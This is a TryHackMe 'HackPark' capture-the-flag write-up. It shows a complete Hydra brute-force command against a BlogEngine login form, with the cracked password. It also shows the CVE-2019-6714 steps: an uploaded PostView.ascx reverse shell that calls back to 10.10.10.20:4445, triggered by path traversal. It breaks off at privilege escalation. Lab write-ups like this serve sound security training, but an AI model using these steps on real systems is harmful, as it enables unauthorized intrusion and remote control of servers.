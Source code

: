 # [HackPark - TryHackMe](https://tryhackme.com/room/hackpark)

Bruteforce a websites login with Hydra, identify and use a public exploit then escalate your privileges on this Windows machine!

## Credits

- Created by [tryhackme](https://tryhackme.com/p/tryhackme) and [str3g4tt4](https://tryhackme.com/p/str3g4tt4)
- Room type: premium

## Deploy the vulnerable Windows machine

- `nmap -sV <target ip>` to see which port the web server is hosted on

### Whats the name of the clown displayed on the homepage?

> The name of the clown on the homepage is **pennywise**

## Using Hydra to brute-force a login

### What request type is the Windows website login form using?

- Using a proxy in BurpSuite or web browser, capture sign in request

> The login form uses an HTTP **POST** request

### Guess a username, choose a password wordlist and gain credentials to a user account!

- The raw request (using demo credentials admin:password) is:

```
__VIEWSTATE=mxGh%2BdQ%2F%2BpArh2IP5hEYlvCLap4USWw8NMWpW%2FCdFy6ebKKcxpebQBn520XB%2B2JT4UkTMLEKXBo45EPGoXJV66%2Burs2DXjDhcW1YOsSeJnTn%2FUSqN83X99YkfN%2Bj1wq5fZmYNARCiCOdguXEK4cGaW9Pk0uvyRYkE0%2FL8raUHPQvtxFy&__EVENTVALIDATION=1c2yh3maTjYr195e6nm19EPl0ltYHdCSj3UZlOmOgjsz1oiEzPAjPecO6Jz8lbmApBJaNxurYq2wLuHkXw6ucLOBRfCJKpDlcLjTKIDntLkWs7k7pMPaNyTNTqVsxWqgWyjwK2l3PhC7LG85PlYneTsJw1hRDr2IIximKRT0VfChSgfb&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=password&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
```

- Craft Hydra command with the request
    - `hydra -l admin -P /usr/share/wordlists/rockyou.txt <target ip> http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=mxGh%2BdQ%2F%2BpArh2IP5hEYlvCLap4USWw8NMWpW%2FCdFy6ebKKcxpebQBn520XB%2B2JT4UkTMLEKXBo45EPGoXJV66%2Burs2DXjDhcW1YOsSeJnTn%2FUSqN83X99YkfN%2Bj1wq5fZmYNARCiCOdguXEK4cGaW9Pk0uvyRYkE0%2FL8raUHPQvtxFy&__EVENTVALIDATION=1c2yh3maTjYr195e6nm19EPl0ltYHdCSj3UZlOmOgjsz1oiEzPAjPecO6Jz8lbmApBJaNxurYq2wLuHkXw6ucLOBRfCJKpDlcLjTKIDntLkWs7k7pMPaNyTNTqVsxWqgWyjwK2l3PhC7LG85PlYneTsJw1hRDr2IIximKRT0VfChSgfb&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:failed"`

> 1 valid password is found: **1qaz2wsx**

## Compromise the machine

### Now you have logged into the website, are you able to identify the version of the BlogEngine?

> The BlogEngine version is **3.3.6.0**

### What is the CVE?

> A quick google search of the BlogEngine version returns **CVE-2019-6714**

### Who is the webserver running as?

- First, set the reverse shell IP in the exploit code
    - Edit this line: `System.Net.Sockets.TcpClient("10.10.10.20", 4445))`
- Rename the file to PostView.ascx
- Upload to blogengine portal
    - Use this link: http://<target ip>/admin/app/editor/editpost.cshtml
- Trigger uploaded exploit
    - Use this link: http://<target ip>/?theme=../../App_Data/files

> <code>whoami</code> returns **iis apppool\blog**

## Windows Privilege Escalation

### What is the OS version of this windows machine?

- Generate shellcode with `msfvenom`

> <code>systeminfo</code> returns shows the OS version is 
